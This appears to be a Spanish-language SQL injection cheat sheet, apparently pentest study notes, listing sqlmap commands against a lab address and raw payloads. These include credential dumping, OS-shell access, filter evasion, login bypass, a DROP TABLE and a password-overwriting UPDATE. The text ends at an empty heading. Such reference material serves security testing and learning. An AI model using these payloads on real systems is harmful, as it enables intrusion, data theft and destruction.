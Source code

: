 # SQL Injection
## Comandos principales

| **Comando**                                                   | **Descripción** |
|---------------------------------------------------------------|-----------------|
| `sqlmap -u "http://10.10.10.10/file.php?id=1" --dbs`           | Usado para detectar y enumerar las bases de datos disponibles en un sitio web vulnerable a SQLi en la URL proporcionada. |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" --tables`        | Enumera las tablas dentro de la base de datos seleccionada. |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" -D database_name --columns` | Enumera las columnas de una tabla específica de la base de datos indicada. |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" -D database_name -T users --dump` | Extrae (dumps) datos de la tabla `users` en la base de datos especificada. |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" --os-shell`     | Intenta obtener una shell de sistema operativo mediante inyección SQL. |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" --risk=3 --level=5` | Aumenta la profundidad y el riesgo del escaneo, lo que puede ser útil para encontrar vulnerabilidades más complejas. |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" --technique=BEUSTQ` | Especifica los tipos de técnicas de inyección SQL a probar. Las opciones incluyen: `B` (blind), `E` (error-based), `U` (union), `S` (stacked queries), `T` (time-based), `Q` (inline queries). |
| `sqlmap -u "http://10.10.10.10/file.php?id=1" --tamper=space2comment` | Utiliza técnicas de evasión para intentar bypass los filtros de seguridad en la web (por ejemplo, `space2comment` reemplaza espacios por comentarios en SQL). |

## Técnicas comunes de inyección SQL

| **Comando**                                                    | **Descripción** |
|--------------------------------------------------------------|-----------------|
| `OR 1=1 -- -`                                                | Inyección simple para verificar si el campo es vulnerable. Esta consulta siempre devolverá resultados debido a la condición `OR 1=1`. |
| `UNION SELECT 1,2,3--`                                        | Inyección de unión para combinar la consulta original con una nueva consulta que devuelve valores específicos. El `--` es utilizado para comentar el resto de la consulta original. |
| `UNION SELECT NULL,NULL,NULL --`                               | Intento de inyección utilizando valores nulos para obtener una lista de columnas de la tabla que se está consultando. |
| `'; DROP TABLE users--`                                       | Inyección que intenta eliminar una tabla en la base de datos si el sistema no valida correctamente las entradas. |
| `';--`                                                       | Comando que termina la consulta SQL y comenta el resto. Esto puede permitir alterar la lógica de la consulta y ejecutar código arbitrario. |
| `' OR 'a'='a`                                                 | Inyección booleana para verificar si la aplicación permite inyección. En este caso, siempre devolverá `true`. |
| `'; UPDATE users SET password='newpassword' WHERE id=1 --`    | Inyección que modifica el valor de una columna de la tabla `users`, como en el caso de cambiar una contraseña. |
| `SELECT 1, user, password FROM users--`                       | Inyección que intenta recuperar datos específicos de la tabla `users` (como `user` y `password`). |

## SQLi en formularios y URLs

| **Comando**                                                    | **Descripción** |
|---------------------------------------------------------------|-----------------|
| `http://10.10.10.10/search.php?search=1' OR 'a'='a`           | Inyección en un parámetro de búsqueda dentro de una URL para probar vulnerabilidad de SQLi. |
| `http://10.10.10.10/login.php?username=admin&password=1' OR 'a'='a` | Inyección SQL en un formulario de login, que puede permitir acceder sin una contraseña válida. |
| `http://10.10.10.10/product.php?id=1' UNION SELECT username, password FROM users --` | Inyección SQL para listar los nombres de usuario y contraseñas de una tabla `users` desde la URL. |

## Tipos comunes de vulnerabilidades SQLi
